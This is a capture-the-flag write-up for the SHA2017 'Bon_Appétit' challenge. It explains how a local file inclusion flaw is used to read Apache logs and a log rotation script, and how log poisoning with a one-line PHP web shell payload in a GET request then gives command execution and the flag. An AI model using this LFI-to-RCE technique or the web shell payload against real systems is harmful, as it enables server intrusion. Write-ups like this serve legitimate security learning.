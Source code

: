 ```yaml
---
layout: post
title: Bon_Appétit
category: SHA2017 CTF
---
```


Hello all  , after reading some write up , i notice that 90% of players solved this challenge with the simple and easy way 

using .htaccess file to find the flag file name and then read it using LFI was really easy and fast 


But in our team always we look for hard way :D joking 

First we found that there is LFI vuln in the website which make us able to read any file in the server :

```
http://bonappetit.stillhackinganyway.nl/?page=LFI HERE
```

so here you can read all what you need to deal with this challenge 

the easy way is that you find the .htaccess file and then read the flag using the name mention in this file 

as we dont check this file we did my own solution and as i think its the goal of this task

when you read the source of home page we see text : 

<!-- TODO: Check apache access and error log for errors -->

so we check the log files access.log but we dont find it , then check access.log.1 and we get it ,also log.sh file used to create the log file 


"output : All logs are saved in /var/www/html/logs/[client_ip].log, rotated after 10 entries."

```
http://bonappetit.stillhackinganyway.nl/?page=file:///var/log/apache2/access.log.1
http://bonappetit.stillhackinganyway.nl/log.sh

#!/bin/bash

while read -r
do
   HOST=$(echo $REPLY|awk '{ print $1 }')
   LOG=/var/www/html/logs/${HOST}.log
   touch ${LOG}

   # Check length
   LEN=$(cat ${LOG}| wc -l) 
   if [ ${LEN} -gt 10 ] 
   then
      > ${LOG}
   fi

   echo "${REPLY}" >> ${LOG}  2>&1
done

exit 0
```

then we just did simple log poisoning and run our command in the server 

```
GET /<?php system($_GET['a']);?>
```

then

```
bonappetit.stillhackinganyway.nl/?page=file:///var/www/html/logs/our_ip.log&a=ls
```

![pasted image at 2017_08_05 01_06 pm](https://user-images.githubusercontent.com/7364615/29022899-8bd968d0-7b6b-11e7-8f3e-c3a454d9fd65.png)


and finaly read the flag 

![envoye_le_5_8_2017_a_13_09_05](https://user-images.githubusercontent.com/7364615/29022986-dead8cf8-7b6b-11e7-877d-9d8d58bf6049.png)

flag{82d8173445ea865974fc0569c5c7cf7f}
